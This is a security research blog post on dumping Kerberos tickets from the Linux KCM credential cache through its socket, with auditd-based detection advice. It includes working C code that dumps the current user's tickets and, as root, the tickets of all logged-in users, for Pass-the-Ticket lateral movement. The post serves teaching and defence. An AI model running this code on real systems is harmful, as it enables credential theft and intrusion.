






# Dumping tickets in Kerberos Cache Manager (and detecting it)

Kerberos tickets have always been juicy targets for pentesters and red teamers willing to perform lateral movement through Pass-the-Ticket attacks.

On domain-joined Linux machines, Keberos tickets are stored in a _credential cache_, which can have four different forms based on the MIT specifications [^1].
* FILE: tickets are stored in a flat file, usually in the /tmp directory. 
* DIR: tickets are stored in dedicated ccache in FILE format within a subdirectory, usually in /tmp/krb5.
* KEYRING: tickets are stored in memory within the Linux keyring.
* MEMORY: tickets are stored in the memory of the process handling them.

Interestingly, recent distros (at least those using _sssd_) seem to use by default a fifth type of storage: _Kerberos Cache Manager_ (KCM), which is basically a database at `/var/lib/sss/secrets/secrets.ldb`.

Nonetheless, the ability to steal tickets (and to detect it) greatly depends on the credential cache. Previous work showed that reading the _KCM_ database gave good results but requires root privileges. 

However, there are many scenarios (phishing, webshell, etc.) where a user session is compromised without knowing the password of the targeted user. 
_How then to retrieve tickets of a low-privileged user session that was just compromised?_ - **One's own tickets can be dumped through the KCM socket**, including with a low-privileged account. In addition, **with elevated privileges all tickets can be obtained** that way. From a defensive perspective, this technic produces weak signals that are likely to fly under the radar if not well monitored.

## Existing research in the field

_FILE_ and _DIR_ credential caches have been abused for a long time by attackers. The format and the storage method makes it easy to retrieve them. From a defender perspective, on the one hand, detection opportunities are well documented (namely checking for file access)[^2], but on the other stealing and reusing those files is very simple[^3].

Regarding the _KEYRING_ storage, a few tools already exist to retrieve all of its content[^4] or the Kerberos tickets specifically[^5]. Since the technic usually involve process injection, mitigation can be implemented using SELinux or AppArmor[^6] 

As for _KCM_, several tools to extract the tickets already exist, but they target the database storing them and require root privileges[^7][^8]. As for the detection, it is trivial and such abuses can be caught by monitoring accesses to the database, similarly to file access.

## Dumping tickets through KCM socket 

The inner working of the KCM is relatively well explained _sssd-kcm_ doc, in any case enough to abuse it without taking a look to the source code[^7].

> *In a setup where Kerberos caches are managed by KCM, the Kerberos library (typically used through an application, like e.g., kinit(1), is a “"KCM client"” and the KCM daemon is being referred to as a “"KCM  server"”. The client and server communicate over a UNIX socket.*

The key lies therein: applications may use the Kerberos library to talk to the KCM socket. Nonetheless, a question remains: _Is there a function to retrieve a ticket from KCM socket and write it to a file?_ - Short answer is yes and no.

Taking a look to the MIT documentation of krb5 library, there is no out of the box "_dump-kcm-to-file_" function, but the _krb5_cc_copy_creds_ sounds promising. Putting the documentation into perspective with part of the source code of krb5 library, using _krb5_cc_copy_creds_, gives a few clues about the expected sequence of actions:
* _krb5_init_context_ to initialize the context of the current user.
* _krb5_cc_resolve_ to resolve the KCM.
* _krb5_cc_resolve_ once more, to resolve the output file.
* _krb5_cc_get_principal_ to resolve the current principal in the KCM.
* _krb5_cc_initialize_ to initialize the destination file as a credential cache.
* _krb5_cc_copy_creds_, finally, to copy the tickets from the KCM to the output file.

This translates to the minimalistic C code below:
```c
#include <krb5.h>
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    krb5_context ctx;
    krb5_ccache src = NULL, dst = NULL;
    krb5_principal princ = NULL;
    krb5_error_code ret;

    ret = krb5_init_context(&ctx);
    ret = krb5_cc_resolve(ctx, "KCM:", &src);
    ret = krb5_cc_resolve(ctx, "FILE:/tmp/KCM_dump.ccache", &dst);
    ret = krb5_cc_get_principal(ctx, src, &princ);
    ret = krb5_cc_initialize(ctx, dst, princ);
    ret = krb5_cc_copy_creds(ctx, src, dst);

    /* Cleanup */
    if (princ) krb5_free_principal(ctx, princ);
    if (src) krb5_cc_close(ctx, src);
    if (dst) krb5_cc_close(ctx, dst);
    krb5_free_context(ctx);
    return ret ? 1 : 0;
}
```

As a proof of principle, the above works OK. It effectively allows exporting the KCM tickets of the current unprivileged user to a credential cache file. 



_Successfully exported a ticket from KCM to a file._

The file can then be copied to other machines and be used to move laterally with a Pass-the-Ticket, without knowing the password of the user.

Nonetheless, a question remains, _assuming that elevated (root) privileges were obtained, is it possible to obtain the tickets of all users connected to the machine?_ - Again, short answer is yes and no. 

As root, the KCM appears empty (as long as root is not part of the domain). 


_Empty and sad KCM._

However, the documentation gives details about the access control in place[^9].
> *The KCM server keeps track of each credential caches's owner and performs access check control based on the UID and GID of the KCM client.*

Good news, bad news, root can obviously execute actions as other users by changing the UID of the running program. Therefore, by listing the UID of the connected users and changing the context to each of them with _seteuid_, it is possible to dump the KCM of every connected user. This gives the C code below.

```c
#include <krb5.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <unistd.h>
#include <pwd.h>
#include <utmp.h>

int main(void) {
    krb5_context ctx;
    krb5_ccache src = NULL, dst = NULL;
    krb5_principal princ = NULL;
    krb5_error_code ret;
    struct utmp *ut;
    struct passwd *pw;

    /* Iterate over each user */	
    setutent();
    while ((ut = getutent()) != NULL) {
        
        if (ut->ut_type != USER_PROCESS) continue;
        pw = getpwnam(ut->ut_user);
        if (!pw) continue;
        printf("Targeting user=%s uid=%d\n", pw->pw_name, pw->pw_uid);
		seteuid(0); 
		if (seteuid(pw->pw_uid) != 0) {
			printf("setuid(%d) failed\n", pw->pw_uid);
			continue;
		}
		
		ret = krb5_init_context(&ctx);
		ret = krb5_cc_resolve(ctx, "KCM:", &src);
		char ccname[256];
		snprintf(ccname, sizeof(ccname), "FILE:/tmp/KCM_dump_%s", pw->pw_name);
		ret = krb5_cc_resolve(ctx, ccname, &dst);
		ret = krb5_cc_get_principal(ctx, src, &princ);
		ret = krb5_cc_initialize(ctx, dst, princ);
		ret = krb5_cc_copy_creds(ctx, src, dst);
		printf("KCM cache successfully copied to /tmp/KCM_dump_%s\n", pw->pw_name);		

    }
    endutent();

    /* Cleanup */
    if (princ) krb5_free_principal(ctx, princ);
    if (src) krb5_cc_close(ctx, src);
    if (dst) krb5_cc_close(ctx, dst);
    krb5_free_context(ctx);

    return ret ? 1 : 0;
}
```

Running this small program would therefore allow dumping the tickets of the current (unprivileged) user, but also any other user for which the UID can be changed to. When running it as root, it effectively allows dumping the credentials of all users directly from the KCM. 



_Dumping one's own tickets as an unprivileged user._



_Dumping all tickets as a privileged user._

## Detection opportunities

Detecting Pass-the-Ticket within a domain usually involves looking for inconsistent patterns on the network or on the domain controllers event logs. For instance, this can be looking for TGS-REQ from an IP that did not perform an AP-REQ before. Such patterns are already well documented and usually relatively well monitored[^10].

But besides that and specifically regarding the theft of tickets FILE and DIR credential cache already have their own monitoring recommendation on the MITRE ATT&CK[^2]. Now, _what are the detection opportunities when interacting directly with KCM?_ 

At first glance, they are limited because there is no actual interaction with files or directories. Fortunately, legitimate interactions with the KCM are usually limited to few processes such as _kinit_ or _ssh_. Therefore, it seems possible to monitor KCM events without being flooded with irrelevant logs, there are at least two reasonable approach:
* Monitoring connections to the KCM socket itself.
* Monitoring events of the KCM process.

### KCM socket

Auditd can be used to monitor access to the KCM socket. In this case, connections will be monitored: `sudo auditctl -a exit,always -S connect -F path=/run/.heim_org.h5l.kcm-socket -k kcm-socket`. Then, dumping tickets from the KCM yields the following logs.



_KCM socket logs when dumping tickets._

The auditd logs clearly shows what binary connected to the KCM socket. Having a binary, that is not a well-known service such ssh for instance, is unexpected to say the least.  

As a comparison, a legitimate SSH connection generate the logs below. 


_KCM socket logs when connecting using SSH._

Decoding the proctitle field reveals `/usr/libexec/sssd/krb5_child --dumpable=2 --debug-microseconds=0 --debug-timestamps=1 --debug-fd=33 --backtrace=1 --debug-level=`

Therefore, filtering the proctitle or exe fields for unexpected program connecting to the KCM seems to be a decent way of detecting such dumps.

As a side note monitoring for read and write events on the socket did not bring any logs, which is a bit unexpected and could not be explained.

### KCM process

Similarly, auditd can be configured to monitor access to the KCM daemon: `sudo auditctl -a always,exit -F exe=/usr/libexec/sssd/sssd_kcm -F key=kcm-daemon`. Then, dumping tickets from the KCM yields the following logs.



_KCM daemon logs when dumping tickets._

Although only three events were shown, 437 entries were produced during the dump, which took less than a second. 

As a comparison, a legitimate SSH connection generated 919 entries. 

Unfortunately, there is no tangible information about the program interacting with the KCM daemon. Given the large number of events produced, it may be possible to detect legitimate activities based on the volume of events, but it would likely be noisy and consumes a lot of resources, making it inconvenient. In the case of dump, few events were produced, probably because only a reading operation was performed but there was no ticket renewal for instance.

## Conclusion

Dumping owned tickets as an unprivileged compromised user or all tickets a privileged one through the KCM socket would certainly bring some lateral movements possibilities for pentesters and red teamers.

As for blue teamers, although this technic may be harder to detect since there is no direct interactions with files, the connection logs to the KCM socket bring an interesting opportunity to detect such dumps. In addition, correlating those with anomaly detection based on the volume of events related to the KCM daemon may be used to improve the detection.

[^1]: [https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html)
[^2]: [https://attack.mitre.org/techniques/T1558/005/](https://attack.mitre.org/techniques/T1558/005/)
[^3]: [https://www.thehacker.recipes/ad/movement/credentials/dumping/cached-kerberos-tickets](https://www.thehacker.recipes/ad/movement/credentials/dumping/cached-kerberos-tickets)
[^4]: [https://github.com/zer1t0/keydump](https://github.com/zer1t0/keydump)
[^5]: [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
[^6]: [https://hackliza.gal/en/posts/keydump/](https://hackliza.gal/en/posts/keydump/)
[^7]: [https://github.com/mandiant/SSSDKCMExtractor](https://github.com/mandiant/SSSDKCMExtractor)
[^8]: [https://github.com/synacktiv/kcmdump](https://github.com/synacktiv/kcmdump)
[^9]: [https://manpages.ubuntu.com/manpages/jammy/man8/sssd-kcm.8.html](https://manpages.ubuntu.com/manpages/jammy/man8/sssd-kcm.8.html)
[^10]: [https://attack.mitre.org/detectionstrategies/DET0352/](https://attack.mitre.org/detectionstrategies/DET0352/)